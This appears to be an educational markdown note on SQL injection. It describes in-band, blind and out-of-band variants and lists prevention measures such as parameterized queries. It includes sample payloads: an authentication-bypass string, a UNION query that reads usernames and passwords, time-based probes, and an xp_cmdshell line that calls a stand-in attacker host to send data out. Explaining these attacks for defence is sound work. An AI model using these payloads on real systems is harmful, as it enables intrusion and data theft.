

# SQL Injection

SQL Injection(SQLi) is a code injection that exploits a vulnerability in an application by manipulating SQL queries. It allows attackers to interfere with the queries that an application makes to its database.

When user inputs is not sanitized properly, the attackers can inject malicious SQL code into input fields such as username, password, etc and gain unauthorised access or manipulate the database.

## Rise in the SQL Injection

1. Bypass authentication
2. Read sensitive data such as usernames and passwords
3. Modify or delete data
4. Execute admin functionality

## Types of SQL Injection

1. Classic / In-band SQLi
The simplest and most common type. The attacker uses the same communication channel to both launch the attack and gather the results.

**Types in Classic SQLi:**
a. Error-based SQLi
Relies on database error messages to extract data.
Example: ' OR 1=1 --

Error reveals info like:
I.Database type
II.Table names
III.Column names

b. Union-based SQLi
Uses the UNION SQL operator to combine results of two or more SELECT statements.
Allows extracting data from other tables.
Example: ' UNION SELECT username, password FROM users --

2. **Blind SQLi**
when the application doesn't display errors or DB responses, but we can observe the behaviour cahnge such as delay, response content, redirection

**Types in Blind SQLi**
a. Boolean-based (content-based) Blind SQLi
Based on true/false conditions.
Example:
' AND 1=1 --  → returns true  ->page loads normally  
' AND 1=2 --  → returns false ->different behavior

b. Time-based Blind SQLi
Uses SQL functions like SLEEP() or WAITFOR DELAY to infer if a condition is true.
Useful when there’s no visible response difference.

Example: ' IF(1=1, SLEEP(5), 0) --

3. Out-of-band SQLi
Used when neither in-band nor blind methods work. This type depends on the DB server's ability to make DNS or HTTP requests to external systems.
Example: '; EXEC xp_cmdshell('nslookup attacker.com') --
It can exfiltrate data to attacker-controlled servers.

## Real world examples

1. Login Page Bypass
2. Dump data using Union

## Prevention

1. Use Prepared Statements / Parameterized Queries
example in PHP (PDO), Python, Java, etc.
2. Use ORM Libraries (like Sequelize, SQLAlchemy, Hibernate)
3. Input Validation and Sanitization
4. Least Privilege for DB Accounts
5. Web Application Firewall (WAF)
6. Regular Security Testing / Penetration Testing
